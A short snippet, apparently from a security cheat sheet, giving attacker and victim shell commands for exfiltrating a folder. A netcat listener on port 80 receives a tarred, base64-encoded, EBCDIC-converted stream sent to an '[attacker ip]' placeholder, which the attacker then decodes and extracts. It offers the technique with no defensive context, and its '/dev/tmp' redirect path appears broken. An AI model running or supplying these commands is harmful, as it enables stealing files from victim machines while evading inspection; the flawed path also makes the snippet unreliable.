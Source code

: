 ### Attacker
	nc -lvp 80 > datafolder.tmp
### Victim
	tar zcf - /tmp/datafolder | base64 | dd conv=ebcdic > /dev/tmp/[attacker ip]/80
### Attacker
	dd conv=ebcdic if=datafolder.tmp | base64 -d > datafolder.tar
	tar xf datafolder.tar
